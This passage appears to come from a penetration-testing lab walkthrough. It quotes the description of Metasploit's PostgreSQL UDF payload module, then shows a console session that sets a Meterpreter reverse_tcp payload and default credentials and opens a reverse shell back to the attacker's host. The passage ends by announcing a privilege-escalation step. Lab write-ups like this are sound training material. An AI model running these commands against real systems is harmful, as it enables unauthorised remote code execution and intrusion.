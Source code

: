 > On some default Linux installations of PostgreSQL, the postgres service account may write to the /tmp directory, and may source UDF Shared Libraries's 
> om there as well, allowing execution of arbitrary code. This module compiles a Linux shared object file, uploads it to the target host via the UPDATE 
> pg_largeobject method of binary injection, and creates a UDF (user defined function) from that shared object. Because the payload is run as the shared 
> object's constructor, it does not need to conform to specific Postgres API versions.


``` plain
msf > use exploit/linux/postgres/postgres_payload
msf exploit(postgres_payload) > show options

Module options (exploit/linux/postgres/postgres_payload):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD                   no        The password for the specified username. Leave blank for a random password.
   RHOST                      yes       The target address
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output


Exploit target:

   Id  Name
   --  ----
   0   Linux x86

msf exploit(postgres_payload) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(postgres_payload) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
set PASSWORD postgres
PASSWORD => postgres
msf exploit(postgres_payload) > exploit

[*] Started reverse handler on 192.168.127.159:4444 
[*] 192.168.127.154:5432 - PostgreSQL 8.3.1 on i486-pc-linux-gnu, compiled by GCC cc (GCC) 4.2.3 (Ubuntu 4.2.3-2ubuntu4)
[*] Uploaded as /tmp/uVhDfWDg.so, should be cleaned up automatically
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1228800 bytes) to 192.168.127.154
[*] Meterpreter session 1 opened (192.168.127.159:4444 -> 192.168.127.154:37141) at 2014-06-06 22:49:17 +0300
```

From here we again have to elevate our privileges. I will exploit the same vulnerability with the udev exploit, but this time from inside Metasploit:
